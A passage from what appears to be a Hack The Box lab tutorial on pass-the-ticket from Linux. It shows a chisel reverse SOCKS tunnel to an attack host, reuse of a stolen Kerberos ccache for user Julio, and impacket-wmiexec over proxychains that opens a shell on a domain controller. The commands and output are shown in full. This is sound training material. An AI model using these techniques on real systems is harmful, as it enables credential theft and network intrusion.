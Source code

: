 Connect to `MS01` via RDP and execute chisel (located in C:\Tools).

#### Connect to MS01 with xfreerdp
```shell-session
canklesmaks@htb[/htb]$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```
#### Execute chisel from MS01

**Note:** The client IP is your attack host IP.
```cmd-session
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```

Finally, we need to transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file.

#### Setting the KRB5CCNAME Environment Variable

```shell-session
canklesmaks@htb[/htb]$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket

To use the Kerberos ticket, we need to specify our target machine name (not the IP address) and use the option `-k`. 
* If we get a prompt for a password, we can also include the option `-no-pass`.

#### Using Impacket with proxychains and Kerberos Authentication

```shell-session
canklesmaks@htb[/htb]$ proxychains impacket-wmiexec dc01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio
```
